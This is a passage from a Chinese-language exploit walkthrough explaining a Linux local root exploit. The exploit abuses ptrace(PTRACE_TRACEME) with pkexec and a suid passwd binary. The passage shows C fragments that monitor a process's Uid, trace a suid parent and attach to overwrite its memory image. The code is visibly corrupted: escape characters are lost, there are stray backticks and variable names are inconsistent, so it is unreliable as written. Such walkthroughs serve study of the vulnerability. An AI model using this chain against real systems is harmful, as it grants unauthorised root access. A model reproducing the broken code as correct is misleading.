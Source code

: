 task B 保存poc 的 fd，这个在后续替换内存映像的时候会用到<br>
把 `block_pipe[1]` 重定向到 `stdout`, 这样task B 在下次向stdout 写东西的时候会就阻塞住不动。接着运行 suid 程序 pkexec<br>
为什么要这样做呢？<br>
从 `execl` 我们可以看到，完整的命令为<br>`pkexec --user xxx  helper --help`<br>
pkexec 运行的所有输出都是输出到 stderr 上的，所以运行 pkexec 不会写 stdout，等 pkexec 降权之后，会去运行 helper ，也就是以 用户`xxx` 运行命令`helper --help` ，这个命令会从 `stdout` 输出 usage，于是 task B 就停在了这里。

### **task C ptrace_traceme**

接下来看 task C 的逻辑

```
if(child==0)`{`
        // task C
        //用于后面修改内存镜像
        dup2(self_fd,42);
```

task C 同样保存 poc 的 fd，用于后续内存镜像的替换

```
// 监控父进程 也就是 task B 的 Uid 情况
        // 执行 pkexec 的时候task B 会变成 root 权限， Uid == 0
        int proc_fd = open(tprintf("/proc/%d/status",middle),O_RDONLY);
        char *needle = tprintf("nUid:t%dt0t", getuid());
        while(1)`{`
            char buf[1000];
            ssize_t buflen =  pread(proc_fd,buf,sizeof(buf)-1,0);
            buf[buflen]='';
            if(strstr(buf,needle))break;
        `}`

```

接着进入一个 while 循环，它通过查看 task B 的 `/proc/xxx/status` 文件检测 task B 是否已经执行了 suid 程序 变成root权限，task B 变成 root 权限时退出循环

```
fprintf(stderr,"03 task C trigger tracemen");
        // 保存 task B 的 root cred
        ptrace(PTRACE_TRACEME,0,NULL,NULL);
        // task C 执行 suid 程序
        fprintf(stderr,"04 exec suid /usr/bin/passwdn");
        execl("/usr/bin/passwd","passwd",NULL);
    `}`
```

接着 task C 执行`ptrace(PTRACE_TRACEME,0,NULL,NULL);` 保存 task B 的 suid 的 cred, 然后 `execl` 运行 `passwd` 程序，自己变成 root 权限

### **main 函数(task A)修改 内存**

okay 这个时候 task B 已经不是 root 权限了，task A 完全可以 attach task B，然后修改 task B 的内存

```
fprintf(stderr,"05 task A attack task Bn");
    ptrace(PTRACE_ATTACH,midpid,0,NULL);
    waitpid(midpid,&amp;dummy_status,0);

    force_exec_and_wait(midpid, 0, "stage2");
```
